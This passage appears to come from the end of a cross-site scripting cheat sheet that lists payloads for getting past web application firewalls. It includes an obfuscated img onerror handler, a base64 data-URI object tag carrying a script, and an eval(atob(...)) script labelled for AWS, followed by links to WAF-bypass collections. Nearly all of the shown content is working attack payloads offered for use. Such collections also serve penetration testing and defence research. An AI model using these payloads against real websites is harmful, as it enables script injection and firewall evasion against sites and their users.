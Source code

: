 ```

<img/src=q onerror='new Function`al\ert\`1\``'>

<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

7. AWS

```
<script>eval(atob(decodeURIComponent(confirm`1`)))</script>
```

If you want to see the other payload for other WAF, check this [link](https://github.com/0xInfection/Awesome-WAF)

## References

* [Brute Logic](https://brutelogic.com.br/)
* [Awesome-WAF](https://github.com/0xInfection/Awesome-WAF)
* Some random twitter posts
